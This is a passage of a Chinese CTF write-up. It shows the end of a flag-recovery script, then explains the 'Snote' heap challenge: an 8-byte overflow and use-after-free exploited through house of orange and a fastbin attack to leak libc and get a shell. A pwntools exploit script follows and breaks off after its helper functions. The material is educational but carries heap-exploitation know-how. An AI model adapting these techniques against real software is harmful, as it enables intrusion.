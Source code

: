 ```
            blue_temp+=Xor(jj, bluestr)
        for m in hp:
            for n in score:
                s_temp= stext+red_temp+blue_temp+Xor(Moon, Cloud)+str(m^0x1234)+str(n^0x4321)
                hash = hashlib.sha1(s_temp.encode()).hexdigest()
                # print hash
                if hash == flag_sha.lower():
                    print "flag`{`"+hashlib.md5(s_temp.encode()).hexdigest().upper()[:10] + "`}`"
                    exit()
```

### <a class="reference-link" name="Snote"></a>Snote

本题漏洞点在于edit 8字节溢出 并且free后指针不置空，导致free后还可以通过指针修改内存。

利用思路：只有一个指针变量，不断更新其值。通过溢出，可以修改top chunk size。使用 house of orange 技术，利用内存对齐进行size修改，进而将ptr调整至泄露main_arena某偏移，计算出libc基地址。

而后删除元素，进入fastbin中，利用fastbin attack，将被释放的chunk改写，修改bins结构，进行攻击，写入攻击地址并写入攻击函数。最后调用malloc来get shell

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'

p = process('./pwn')
#p = remote('55fca716.gamectf.com','37009')
e = ELF('./pwn')



def add(size,content):
    p.recvuntil("Your choice &gt; ")
    p.sendline('1')
    p.recvuntil("&gt; ")
    p.sendline(str(size))
    p.recvuntil("n")
    p.send(content)


def edit(size,content):
    p.recvuntil("Your choice &gt; ")
    p.sendline('4')
    p.recvuntil("&gt; ")
    p.sendline(str(size))
    p.recvuntil("n")
    p.send(content)


def show():
    p.recvuntil("Your choice &gt; ")
    p.sendline('2')

def dele():
    p.recvuntil("Your choice &gt; ")
    p.sendline('3')



p.recv()
p.sendline('hehe')


add(0x18,'a')
```